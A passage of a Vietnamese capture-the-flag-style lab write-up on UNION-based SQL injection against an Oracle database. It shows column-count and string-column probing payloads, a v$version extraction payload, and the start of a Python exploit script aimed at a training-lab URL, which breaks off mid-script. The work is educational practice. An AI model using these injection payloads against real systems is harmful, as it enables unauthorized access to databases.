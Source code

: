 VD: kết quả của truy vấn sẽ được sắp xếp dựa trên giá trị của cột thứ hai trong danh sách SELECT, tức là column2.

```sql
SELECT column1, column2, column3
FROM your_table
ORDER BY 2;
```

Kiểm tra số cột dữ liệu trả về trong câu lệnh truy vấn, payload:

```sql
' UNION SELECT NULL,NULL FROM dual --
```

và

```sql
' ORDER BY 2 --
```

không xuất hiện error
![image](https://hackmd.io/_uploads/B10gMHi5T.png)

![image](https://hackmd.io/_uploads/ryaJQrsqp.png)

và payload xuất hiện error:

```sql
' UNION SELECT NULL,NULL,NULL FROM dual --
```

và

```sql
' ORDER BY 3 --
```

![image](https://hackmd.io/_uploads/BJ51Mri56.png)

![image](https://hackmd.io/_uploads/B1j87Hiqa.png)

- Query trả về cho ta 2 cột, sau đó mình phải tìm xem cột nào trả về giá trị là chuỗi, thì em sẽ đưa chuỗi vào lần lượt từng cột, tìm kiếm cột dữ liệu tương thích với kiểu chuỗi, payload: `/filter?category=' UNION SELECT 'column1', 'column2' FROM dual--`

![image](https://hackmd.io/_uploads/HJCxNBo9p.png)

Cả 2 cột dữ liệu đều có thể tận dụng để hiển thị thông tin khai thác. Thực hiện truy xuất phiên bản cơ sở dữ liệu hiện tại, payload: `/filter?category=' UNION SELECT banner, 'column2' FROM v$version--`, bài lab hoàn thành:

![image](https://hackmd.io/_uploads/S1tfLrjqT.png)

mình đã viết script khai thác

```python
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0aad00ae038c062e8218a616000a00f5.web-security-academy.net'

session = requests.Session()

payload = "' UNION SELECT banner, 'column2' FROM v$version--"
params = {
```